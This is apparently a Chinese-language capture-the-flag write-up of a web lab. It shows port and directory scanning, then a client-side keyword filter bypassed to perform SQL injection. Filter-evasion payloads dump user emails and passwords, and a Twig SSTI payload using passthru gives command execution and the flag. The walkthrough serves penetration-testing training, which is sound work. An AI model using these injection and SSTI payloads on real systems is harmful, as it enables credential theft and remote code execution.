


一、信息收集 (Reconnaissance)

首先对目标主机进行端口扫描。

nmap -sC -sV -p- target_ip

扫描结果如下：

扫描发现主要开放端口：

22/tcp   open  ssh
80/tcp   open  http

说明目标主要攻击面为 Web服务。

二、Web信息枚举

访问目标：

http://target_ip

进入网站首页。

2.1 页面源代码分析

查看页面源代码后发现：

HTML 注释中泄露了一些提示信息

发现存在 mail.log 文件

这些信息可能在后续利用中发挥作用。

📷 截图位置

images/source_code_hint.png

2.2 技术栈识别

使用 Wappalyzer 识别网站技术栈。

结果显示：

Apache 2.4

📷 截图位置

images/wappalyzer.png

虽然 Apache 2.4 存在部分公开漏洞，但尝试利用后发现属于 Rabbit Hole。

三、目录扫描

使用 Gobuster 进行目录扫描。

gobuster dir -u http://target_ip -w /usr/share/seclists/Discovery/Web-Content/common.txt

扫描结果如下：

📷 截图位置

images/gobuster_scan.png

发现关键文件：

/mail.log
/composer.json
/phpmyadmin

这些文件可能包含重要信息。

四、识别模板引擎

打开 composer.json 文件。

📷 截图位置

images/composer_json.png

发现网站使用：

Twig 2.14.0

Twig 是常见的 PHP 模板引擎。

若存在输入未过滤，可能导致 SSTI（Server-Side Template Injection）漏洞。

五、SQL 注入漏洞测试

登录页面包含输入框：

email
password

尝试构造基础 SQL 注入：

' OR 1=1-- -

但页面提示输入非法。

📷 截图位置

images/login_error.png

说明：

可能存在 客户端过滤机制。

六、绕过客户端过滤

查看页面 JavaScript 代码发现：

存在关键字过滤：

OR
AND
SELECT
'
"

📷 截图位置

images/js_filter.png

可以使用 Burp Suite 拦截请求绕过客户端过滤。

七、SQL注入利用

使用 Burp Suite 修改请求参数。

📷 截图位置

images/burp_intercept.png

测试 payload：

a' || 1=1-- -

成功绕过过滤。

八、SQL注入点确认

在编辑页面发现参数：

rank
country
gold
silver
bronze

尝试构造 SQL 语句：

gold=555 WHERE rank=3;-- -

数据被成功修改。

📷 截图位置

images/sql_injection_success.png

确认存在 SQL Injection。

九、数据库枚举
枚举数据库
gold=1,country=(select group_concat(schema_name) from information_schema.schemata)

但关键字被过滤。

尝试绕过：

seSELECTlect
infoORrmation_schema

成功绕过过滤。

获取数据库：

bac_test

📷 截图位置

images/database_enum.png

枚举表
gold=1,country=(seSELECTlect group_concat(table_name) from infoORrmation_schema.tables WHERE table_schema='bac_test')

得到：

users
枚举字段
gold=1,country=(seSELECTlect group_concat(column_name) from infoORrmation_schema.columns WHERE table_name='users')

得到字段：

email
password
获取用户数据
gold=1,country=(seSELECTlect group_concat(email,':',passwoORrd) from bac_test.users)

成功获取管理员账号密码。

📷 截图位置

images/user_dump.png

十、管理员后台登录

使用获取的账户登录后台。

📷 截图位置

images/admin_login.png

后台存在 Profile 页面。

该页面包含可控输入。

十一、SSTI 漏洞验证

测试模板注入：

{{8*8}}

返回：

64

📷 截图位置

images/ssti_test.png

确认存在 SSTI漏洞。

模板引擎为：

Twig
十二、SSTI漏洞利用

尝试执行命令：

{{ system('id') }}

失败。

说明：

system函数被禁用

继续尝试 payload：

{{['id',1]|sort('passthru')|join}}

成功执行命令。

📷 截图位置

images/ssti_command_execution.png

继续执行：

ls

找到 flag 文件。

十三、获取 Flag

执行：

cat flag.txt

成功获取 flag。

📷 截图位置

images/flag.png

